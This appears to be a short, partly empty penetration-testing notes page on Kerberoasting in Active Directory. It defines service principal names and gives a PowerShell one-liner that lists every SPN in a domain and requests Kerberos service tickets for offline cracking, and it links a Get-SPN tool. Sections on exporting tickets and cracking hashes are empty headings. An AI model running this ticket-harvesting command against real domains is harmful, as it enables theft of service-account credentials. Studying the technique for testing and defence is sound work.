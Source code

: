 ```yaml
---
description: Snagging Domain Accounts using SPN's
---
```


# Kerberoast

The kerberoast vulnerability assumes that the attacker has some foothold on the domain and has a low privileged domain account.

## Service Principal Names

> A service principal name \(SPN\) is a unique identifier of a service instance. SPNs are used by [Kerberos authentication](https://msdn.microsoft.com/en-us/library/ms677600%28v=vs.85%29.aspx) to associate a service instance with a service logon account. This allows a client application to request that the service authenticate an account even if the client does not have the account name.

### Listing SPN's

### Fetching Tickets

#### Full SPN Scan

```text
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } 
```

#### Get-SPN

[https://github.com/nullbind/Powershellery/tree/master/Stable-ish/Get-SPN](https://github.com/nullbind/Powershellery/tree/master/Stable-ish/Get-SPN)

### Exporting Tickets

## Cracking SPN Hashes





